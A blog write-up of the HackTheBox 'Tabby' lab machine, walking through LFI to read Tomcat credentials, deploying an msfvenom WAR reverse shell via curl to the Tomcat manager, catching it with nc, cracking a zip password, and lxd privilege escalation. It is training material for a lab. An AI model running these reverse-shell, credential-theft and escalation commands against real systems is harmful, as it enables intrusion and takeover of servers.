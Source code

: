 ```yaml
---
layout: post
title: Tabby
has_children: no
parent: HackTheBox
date: 2020-07-05
nav_order: 20200620
difficulty: Easy
reading_time: 5 min
screenshots: /assets/images/Screenshots/Tabby/
tags: HackTheBox Easy Linux LFI WAR tomcat cracking-zip-files lxd-privesc  B2R
---
```


{% include header.html %}
![tabby.png]({{page.screenshots}}tabby.png)

***

{% include TOC.md %}

### Improved skills:

- LFI
- Tomcat WAR exploitation
- Cracking .zip files
- lxd Privilege Escalation

### Used tools:

- nmap
- gobuster
- msfvenom
- LinEnum.sh
- fcrackzip

***

## Introduction & Foothold

**Tabby** is an _easy_ HTB machine focused on the manually exploitation of a **Tomacat** server using a **.WAR** reverse shell and the exploitation of a misconfigured group permission which allow to escalate to root abusing **lxd** rights.

Let's start as always with an **nmap** scan:

```bash
root@kali:~/HackTheBox# nmap -Pn -sCV -p22,80,8080 -oN nmap/Basic_10.10.10.194.nmap 10.10.10.194
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat 9.0.31
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find out that there are three services running on the box, **two of which** are **web servers** (an *Apache httpd 2.4.41* and an *Apache Tomcat 9.0.31*).

Visiting the first site we discover that the **host** of the box is **_megahosting.htb_**. In order to properly enumerate the box we need to resolve it correctly

`echo "10.10.10.194    megahosting.it" >> /etc/hosts`

Now that we are effectively ready, let's start enumerating every page of the first web server.

![2020-06-22-14-48-13.png]({{page.screenshots}}2020-06-22-14-48-13.png)

After few minutes I found the **_http://megahosting.htb/news.php?file=statement_** page, which results to be vulnerable to **Local File Inclusion** (LFI).

![2020-06-22-14-59-19.png]({{page.screenshots}}2020-06-22-14-59-19.png)

![2020-06-22-14-59-41.png]({{page.screenshots}}2020-06-22-14-59-41.png)

Because we got an LFI vulnerability, the logical next step was to try to exploit it in order to get a Remote Code Execution, but unfortunately none of the existing methods worked... so I decided to start to enumerate the second web server (**tomcat**), looking for another entry point.

```bash
root@kali:~/HackTheBox# gobuster dir -u http://10.10.10.194:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.txt
...
/index.html (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
```

Among all the various directories, *__/manager__* immediately caught my attention: trying to logging in, the server reveals which file contains the credentials, allowing us to use the **LFI** to get them.

![2020-06-22-16-11-37.png]({{page.screenshots}}2020-06-22-16-11-37.png)

 Finding ***tomcat-users.xml*** was a pain as the installation of the web server was done *without following standards paths and rules*, however, after a couple of hours I was able to read the file, located in ***/usr/share/tomcat9/etc/tomcat-users.xml***

![2020-06-22-16-45-05.png]({{page.screenshots}}2020-06-22-16-45-05.png)

![2020-06-22-16-45-57.png]({{page.screenshots}}2020-06-22-16-45-57.png)

Good! Now we are able to login into the ***/manager*** directory and proceeds.

Since the tomcat user are assigned the roles of **admin-gui** and **manager-script**, he has the permission to access the *host-manager webapp via web gui* (from which nothing can be done) but also to interact ***via cli with the manager webapp***, which allows us to upload **.war files** to the server (see the [official documentation](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)).

Once we find the way, let's **create our reverse shell** through **msfconsole**

```bash
root@kali:/var/www/html#  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=9876 -f war > maoutis.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:/var/www/html# ls -al maoutis.war
-rw-r--r-- 1 root root 1095 Jun 29 19:08 maoutis.war
```

load it on the server

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T maoutis.war 'http://10.10.10.194:8080/manager/text/deploy?path=/maoutis'
OK - Deployed application at context path [/maoutis]
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/maoutis:running:0:maoutis
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
and run it to get access as *tomcat* user.
```

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/maoutis/
```

```bash
root@kali:~# nc -lvp 9876
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ export TERM=screen
CTRL+Z
root@kali:~/HackTheBox# stty raw -echo
root@kali:~/HackTheBox# fg

tomcat@tabby:/var/lib/tomcat9$
```

## Lateral Movement to ash

Once gained the shell, further enumeration reveals that the user of the box is **ash**.

Running **LinEnum.sh** we discovered a **.zip backup file** inside ***/var/www/html/files/*** which require to be cracked in order to be unzipped. Let's use **fcrackzip** in order to crack the archive.

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip

PASSWORD FOUND!!!!: pw == admin@it
```

Password found! While inside the archive we didn't find anything useful, trying to use the password to switch to **ash** reveals that the same *password has been reused*.

```bash
tomcat@tabby:/var/www/html/files$ su ash                                                                             
Password: admin@it                                                                                                           
ash@tabby:/var/www/html/files$
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Well done! We are ash!

## Privilege Escalation

Running again **LinEnum.sh** it reveals that we are members of the **lxd group** and that exists a way to ***abuse this permission*** in order *to became root*.
Searching on Google I found [this](https://www.hackingarticles.in/lxd-privilege-escalation/) article, which describes how an account on the system that is a member of the lxd group is able to escalate the root privilege by exploiting the features of LXD.

First, **download** the **lxd-alpine-builder** locally on the kali machine and built it as root
```bash
$git clone https://github.com/saghul/lxd-alpine-builder.git
$cd lxd-alpine-builder
$sudo bash build-alpine
```
Probably will appear errors like *"tar: Ignoring unknow ... "*. Don't worry and continue     with the privilege escalation process.

Then **upload** the **.tar** file on the **ash home** directory and **import** it **inside lxc**

![2020-06-29-23-27-45.png]({{page.screenshots}}2020-06-29-23-27-45.png)

Once finished, we will be root!


## Trophy
```
If you can't give me poetry, can't you give me poetical science?  
- Ada Lovelace
```

{% include share.html %}
